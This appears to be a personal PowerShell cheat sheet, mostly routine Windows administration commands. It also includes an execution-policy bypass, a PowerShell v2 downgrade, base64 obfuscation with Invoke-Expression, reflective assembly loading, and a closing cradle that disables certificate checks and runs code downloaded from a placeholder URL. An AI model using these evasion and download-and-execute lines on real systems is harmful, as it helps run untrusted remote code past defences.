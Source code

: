# powershell

## general

    Get-Host
    $PSVersionTable
    systeminfo
    net user
    whoami
    whoami /priv

## process

    # start from cmd.exe
    start powershell

    # downgrade to v2
    powershell -v 2
    
    # bypass [e]xecution [p]olicy
    powershell.exe -ep bypass

    # disable security to install powershell script
    Set-ExecutionPolicy Bypass -Scope Process -Force;
    . .\script.ps1

    # run notepad as admin
    runas /user:administrator notepad
    runas /user:administrator /savecred notepad

    # become domain user
    runas /user:<domain>.local\<user> /netonly powershell.exe

    # run as administrator
    Start-Process .\myexe.exe -Verb runAs
    Start-Process powershell -Verb runAs

    # get process list
    Get-Process
    Get-Process | find-str \i "svchost"

    # kill a process
    taskkill /f /pid <pid>

    # get file content
    $text = Get-Content .\file.txt -Raw

    # output variable to file
    $text | Out-File c:\output.txt

## finding

    # find by case insensitive keyword
    findstr /? | findstr \i "color"

    # grep in files for a case insensitive string
    findstr /spin "mystring" /*

    # find a filename in drive
    Get-ChildItem C:\ -name -recurse something/

    # find a specific extension
    Get-ChildItem -Path .\ -Filter *.ico -Recurse -File

## env

    # gets the windows logical drives on the computer, drives mapped to network shares
    Get-PSDrive

    # get env vars
    $env:<path>

    Get-ChildItem env:
    Get-Childitem $Env:Temp -Recurse
    Get-ChildItem -Path Env:\SystemDrive                        # tab to complete
    Get-Childitem -Path Env:* | Sort-Object Name

    Get-Variable |%{ "Name : {0}`r`nValue: {1}`r`n" -f $_.Name,$_.Value }

    [System.Environment]::GetEnvironmentVariables()
    [System.Environment]::GetEnvironmentVariable('username')

    # set session env vars
    $TOTO="toto"
    $TOTO

    # set system env vars
    [System.Environment]::SetEnvironmentVariable('TOTO', 'toto')
    [System.Environment]::GetEnvironmentVariable('TOTO')

    # conditionals on env vars
    if([System.Environment]::GetEnvironmentVariable('username') -eq 'Administrator')
    {
       echo 'got admin!'
    }
    else
    {
       echo 'not admin...'
    }

## files

    mkdir /foo
    New-Item -Path C:\foo -Type Directory   # same as above
    New-Item -Path C:\foofile -Type File

    # show tree with folders and files
    tree /F

    # tail
    cat file.txt -Tail 10

    # extract archive
    Expand-Archive file.zip -Destination /myfile

    # rm -rf
    Remove-Item .\folder -Recurse -Force

## networking

    # download
    Invoke-WebRequest <url> -Outfile file

## coding

    # cmake build instead of make
    cmake --build . --config Release

    # automate things
    echo "ls" > run-ls.ps1

### event logs

    Get-EventLog *
    Get-EventLog -LogName System -Newest 20
    Get-EventLog -LogName System -EntryType Error
    Get-EventLog -LogName System -Message *something in the message*
    Get-EventLog -LogName System -After '11/10/2020 07:00:00'

    $MyEvent = Get-EventLog -LogName System -Newest 1
    $MyEvent | Select-Object -Property *

    Get-EventLog -LogName System -UserName NT* | Group-Object -Property UserName -NoElement | Select-Object -Property Count, Name

    Get-WinEvent -ListLog * | Format-List -Property LogName
    (Get-WinEvent -ListLog Security).ProviderNames

## dll

    # get dll exports
    dumpbin.exe /EXPORTS my.dll

    # find dumpbin (comes with visual studio)
    Get-ChildItem / -name -recurse dumpbin.exe

    # add dumpbin to env path
    $Env:path += ";C:\Program Files (x86)\Microsoft Visual Studio XX.Y\VC\bin\amd64"

    [Environment]::SetEnvironmentVariable("Path",[Environment]::GetEnvironmentVariable("Path", "User") + ";C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\VC\Tools\MSVC\<version>\bin\HostX64\x64","User")

## resources

    # monitor cpu and ram percentage usage
    $totalRam = (Get-CimInstance Win32_PhysicalMemory | Measure-Object -Property capacity -Sum).Sum
    while($true) {
        $date = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
        $cpuTime = (Get-Counter '\Processor(_Total)\% Processor Time').CounterSamples.CookedValue
        $availMem = (Get-Counter '\Memory\Available MBytes').CounterSamples.CookedValue
        $date + ' > CPU: ' + $cpuTime.ToString("#,0.000") + '%, Avail. Mem.: ' + $availMem.ToString("N0") + 'MB (' + (104857600 * $availMem / $totalRam).ToString("#,0.0") + '%)'
        Start-Sleep -s 2
    }

## obfuscation

    # command in base64
    $b=[Convert]::ToBase64String([Text.encoding]::UTF8.GetBytes("ls")
    [Text.encoding]::UTF8.GetString([Convert]::FromBase64String("$b")) |  Invoke-Expression

    # binary to base64 to execution (meant to be loadable directly)
    $bin=cat bin.exe
    $b=[Convert]::ToBase64String([Text.encoding]::UTF8.GetBytes($bin))
    [Reflection.Assembly]::Load([Convert]::FromBase64String($b))
    
    # binary to base64 to execution (manual entry calling in binary assembly)
    $b64=[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\bin.exe"))
    $assembly=[Reflection.Assembly]::Load([System.Convert]::FromBase64String($b64))
    [System.Reflection.Assembly]::Load($assembly) | Format-List
    $entryPointMethod = $assembly.GetType('MyNamespace.MyProgram', [Reflection.BindingFlags] 'Public, NonPublic').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
    $entryPointMethod.Invoke($null, (, [string[]] ('argument1')))

## download and install

    $url="<url-to-Invoke-Command.ps1>"
    Invoke-Expression -Command '[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}'; iex(new-object net.webclient).downloadstring($url)
